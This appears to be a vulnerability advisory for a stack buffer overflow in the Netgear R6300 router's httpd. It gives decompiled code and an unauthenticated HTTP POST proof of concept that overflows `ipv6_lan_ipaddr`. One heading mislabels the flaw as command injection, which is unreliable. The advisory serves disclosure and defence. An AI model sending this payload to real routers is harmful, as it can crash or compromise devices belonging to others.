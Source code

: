# Buffer Overflow Vulnerability in `ipv6_lan_ipaddr`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`IPv6FixCgiMain` → `acosNvramConfig_set` → `IPv6CgiGetParam`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `ipv6_lan_ipaddr` |

2. Exploitation Path

```c
int __fastcall IPv6FixCgiMain(char *a1, int a2)
{
  ...
  char v12[256]; // [sp+18h] [-100h] BYREF
  ...
  websGetVar(a1, "ipv6_lan_ipaddr", v12);
  if ( !acosNvramConfig_match("ipv6_lan_ipaddr", v12) )
  {
    acosNvramConfig_set("ipv6_lan_ipaddr", v12);
    v4 = 1;
  }
  ...
}

int __fastcall IPv6CgiGetParam(int a1, const char *a2, char *a3)
{
  char v32[128]; // [sp+7Eh] [-182h] BYREF
  ...    
  v13 = (const char *)acosNvramConfig_get("ipv6_lan_ipaddr");
  strcpy(v32, v13);
  ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: In the `IPv6FixCgiMain` function at line 6, the call `websGetVar(a1, "ipv6_lan_ipaddr", v12)` retrieves attacker-controlled input. Although a 255-byte restriction is applied by `websGetVar`, no additional validation or sanitization is enforced. The retrieved value is stored via `acosNvramConfig_set("ipv6_lan_ipaddr", v12)` at line 9. Later, in the `IPv6CgiGetParam` function, the stored value is fetched at line 19 through `v13 = (const char *)acosNvramConfig_get("ipv6_lan_ipaddr")` and subsequently copied into the destination buffer `v32` using `strcpy(v32, v13)` at line 20. Since the destination buffer `v32` is only 128 bytes in size, this results in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/IPv6FixCgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

ipv6_lan_ipaddr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
